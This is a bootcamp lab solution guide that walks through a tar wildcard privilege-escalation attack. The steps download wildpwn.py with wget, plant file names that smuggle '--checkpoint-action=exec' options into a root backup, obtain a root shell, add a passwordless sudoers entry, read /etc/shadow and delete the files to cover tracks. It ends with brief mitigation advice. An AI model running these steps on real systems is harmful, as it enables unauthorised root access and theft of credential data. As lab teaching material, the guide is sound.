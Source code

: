 ## Solution Guide: Exploiting `tar`

The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 

Completing this activity required the following steps: 

- Downloading `wildpwn.py` using a non-`sudo` user account. 

- Running the script to generate `.webscript`.

- Archiving the directory with `tar` to run the exploit.

- Verifying that your user can gain `sudo` access.

- Researching mitigation techniques. 

### Solutions

1. In your virtual machine, switch to the user `jane`, and verify that you have no `sudo` privileges:

   - Run `su jane`. Use `password` as the password.

   - Run `sudo -l` to confirm that you do not have **superuser** privileges.

2. Next, we'll look for automated `tar` backup files that can be exploited. 

  - As `jane`, run `cd ~/Documents`.

  - Run `ls -l` to display the archive file, `jane_docs_backup.tar`.

      ```
      -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
      ```

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory:

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

   - Check the contents of the directory before running the script with `ls -lat`:

     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```

4. Use `wildpwn.py` to generate the malicious files by running:

    - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    
    - The output will display:

        ```
        [!] Selected payload: tar
        [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
        ```

    -  Run `ls -lat` to display our new payload files:

        ```
        total 20
        drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
        -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
        drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
        -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
        drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
        ...
        ...
        ```

5. After waiting 1–2 minutes, we can re-run `ls -lat` to display that the contents of the directory have changed!

    - Run `ls -lat` to display:

      ```
      total 20
      drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
      drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
      drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
      -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
      drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
      ```

    - Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`.

      - Run `cd .cache` to navigate _into_ the `.cache` directory

      - Run `ls -lat` to display the hidden `.cachefile` exploit file. 
        
        - `-l`: displays a long-list format of the files. 

        - `-a`: displays entries starting with a `.`.

        - `-t`: sorts by time modified, which we want due to the nature of this exploit.

6. While still in the `.cache` subdirectory, execute the `.cachefile` within the terminal:

   - Run `./.cachefile`  

    - You'll see your user prompt change from `jane:$` to `root:#`!

7. Add `jane` to `/etc/sudoers` so that we'll be able to run any command with superuser privileges.s `root`:

   - As `root` run `visudo` and navigate to the following section of the file:

     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```

   - Under that `root` permission, add the following line and save the file:  

     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL
 
   - This should allow us to run `sudo` commands as `jane` without having to enter a password.

8. Log back in as `jane` and verify that you can run commands with `sudo`. 
  
    - Run `su jane`.

    - Test your `sudo` permissions with:

        - `sudo -l`; and then

        - `sudo cat /etc/shadow` 

     - If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!

     - Due to how you edited the `visudo` entry above, you shouldn't need to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.

    - Remove the `ExploitTar` directory entirely to cover your tracks.

        - Run `rm -r ~/Documents/ExploitTar`.

9. Ways to prevent this attack in the future include:

   - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.

   - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
    
   - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.

If you would like to read more about wildcard attacks, check out  the following references:

   - [Back To The Future: Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930)
   
   - [wildpwn's GitHub page](https://github.com/localh0t/wildpwn)

--- 

© 2023 edX Boot Camps LLC. Confidential and Proprietary.  All Rights Reserved.